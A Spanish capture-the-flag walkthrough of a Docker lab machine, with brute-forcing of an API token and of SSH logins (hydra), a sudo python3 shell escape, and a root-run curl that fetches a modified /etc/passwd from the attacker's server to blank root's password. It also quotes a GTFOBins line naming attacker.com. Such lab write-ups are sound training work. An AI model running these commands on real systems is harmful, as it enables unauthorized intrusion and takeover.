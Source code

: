 Desplegamos en contenedor y nos indica que la máquina víctima tiene la IP-->172.17.0.2

Vamos a comprobar trazabilidad:
```bash
ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.085 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.085/0.085/0.085/0.000 ms
```
un paquete transmitido, uno recibido, cero perdidos.

## FASE DE ENUMERACIÓN

Escaneamos puertos abiertos, así como los servicios que corren por ellos y sus versiones por si son vulnerables
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 19:f1:08:79:13:c4:42:b8:6c:c8:a3:3e:f5:39:a3:59 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ6c9b2FZ+2/lQs+7H8j9Vkf83is1rphGqioHJ5Udw/zuClnjeZCCWS3dDNfsWKsmC4bDpP+fbL5p7z3Vpj5z0=
|   256 9b:93:02:4e:d2:08:f7:d7:eb:90:48:e4:48:17:1b:f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILi2T2o/qZXjV7oo43koui/mZwrmfb2NgDELa++lV/sJ
5000/tcp open  http    syn-ack ttl 64 Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: \xC2\xBFQu\xC3\xA9 es una API?
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
```

-Puerto 22 SSH versión 9.2 no vulnerable, sin credenciales, lo descartamos

-Puerto 5000 http, nos vamos a centrar en él

Lanzamos un whatweb, por si nos reporta algo interesante

```bash
whatweb http://172.17.0.2:5000
```
```
http://172.17.0.2:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[172.17.0.2], Python[3.11.2], Title[¿Qué es una API?], Werkzeug[2.2.2]
```

entro en la página y miro el código fuente sin ver nada interesante, leyendo la página supongo que hay un directorio "api" y hago fuzzing desde el mismo
```bash
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  "http://172.17.0.2:5000/api/FUZZ"
```
```
000000188:   401        3 L      5 W        31 Ch       "users"   
```

me mueve al mismo, y es como que no estuviera autorizado, en la página principal puedo ller esto:

```
Para obtener la lista de usuarios autenticándote con un token, puedes usar:

curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto
```

así pués hago un fuzzing con un diccionario en la cabecera:
```bash
wfuzz -c --hc=404 --hh=31 -w /usr/share/wordlists/rockyou.txt  -H "Authorization: Bearer FUZZ" "http://172.17.0.2:5000/api/users"
```
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000028:   200        10 L     14 W       89 Ch       "password1"
```

teniendo ya el token lanzo un curl:
```bash
curl -H "Authorization: Bearer password1" "172.17.0.2:5000/api/users"
```
```
[
  {
    "id": 1,
    "nombre": "bob"
  },
  {
    "id": 2,
    "nombre": "dylan"
  }
]

```
tenemos dos user, bob y dylan, nos hacemos un diccionario con ambos y vamos a lanzar un ataque de fuerza bruta al puerto 22 dónde corre SSH

## FASE DE INTRUSIÓN

Lanzamos un ataque de fuerza bruta con hydra al puerto 22 dónde corre SSH:
```bash
hydra -L nombres.txt  -P /usr/share/wordlists/rockyou.txt -t 16 -V -f -I ssh://172.17.0.2
````
```
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "password1" - 28 of 28688799 [child 6] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "soccer" - 29 of 28688799 [child 12] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "anthony" - 30 of 28688799 [child 14] (0/1)
[ATTEMPT] target 172.17.0.2 - login "bob" - pass "friends" - 31 of 28688799 [child 5] (0/1)
[22][ssh] host: 172.17.0.2   login: bob   password: password1
```

ahora nos conectamos por SSH:
```bash
 ssh bob@172.17.0.2
```
cuando nos pide la contraseña introducimos: password1

## ESCALADA DE PRIVILEGIOS

Lanzamos un cat al /etc/passwd para ver los usuarios:
```bash
cat /etc/passwd | grep sh$
```
```
root:x:0:0:root:/root:/bin/bash
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```
miramos si estamos en algún grupo privilegiado con id y no, miramos con printenv si hay algo en la variable de entorno y tampoco,
miramos con sudo -l si tenemos algún privilegio
```bash
sudo -l
```
```
Matching Defaults entries for bob on 9ea8319d3a14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bob may run the following commands on 9ea8319d3a14:
    (balulero) NOPASSWD: /usr/bin/python3
```
y podemos ejecutar como usuario balulero python 3, miramos el binario en 
```
https://gtfobins.github.io/gtfobins/python/
```
y nos dice que con sudo, se puede abusar de esta manera:
```
sudo python -c 'import os; os.system("/bin/sh")'
```
lo ajustamos:
```bash
sudo -u balulero /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

Ya somos el usuario balulero,
miramos con sudo -l:
```bash
sudo -l
```
```
Matching Defaults entries for balulero on 9ea8319d3a14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User balulero may run the following commands on 9ea8319d3a14:
    (ALL) NOPASSWD: /usr/bin/curl
```
y podemos usar curl con cualquier usuario incluido root, miramos en :
```
https://gtfobins.github.io/gtfobins/curl/#sudo
```
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Fetch a remote file via HTTP GET request.

URL=http://attacker.com/file_to_get
LFILE=file_to_save
sudo curl $URL -o $LFILE
```
podemos subir a la maquina victima un archivo como root, lo más facil es cambiar los privilegios en el /etc/passwd (quitando la "x" evitamos la consulta al /etc/shadows que almacena la contraseña, se la quitamos a root)
hacemos un cat del original y nos hacemos uno nuevo quedando así:
```
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```
montamos un servidor en nuestra máquina atacante dónde tenemos el archivo modificado de passwd:
```bash
sudo python3 -m http.server 80
```
y ahora en la máquina victima introducimos lo siguiente:

```
URL=http://172.17.0.1/passwd #dónde el 172.17.0.1 es nuestra ip atacante con el archivo modificado passwd
LFILE=/etc/passwd # el archivo que vamos a reemplazar, cómo queremos guardar el archivo que bajamos
sudo -u root /usr/bin/curl $URL -o $LFILE # como root bajamos el archivo y lo guardamos
```
```
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1187  100  1187    0     0   243k      0 --:--:-- --:--:-- --:--:--  289k
```
hacemos un cat para ver que ha sido modificado
```bash
cat /etc/passwd
```
```
root::0:0:root:/root:/bin/bash
```
habiendo quitado la "x" ya solo nos queda :
```bash
su root
```
```
root@9ea8319d3a14:/home/bob# is
bash: is: command not found
root@9ea8319d3a14:/home/bob#
```
quise poner id y no se que lié xD
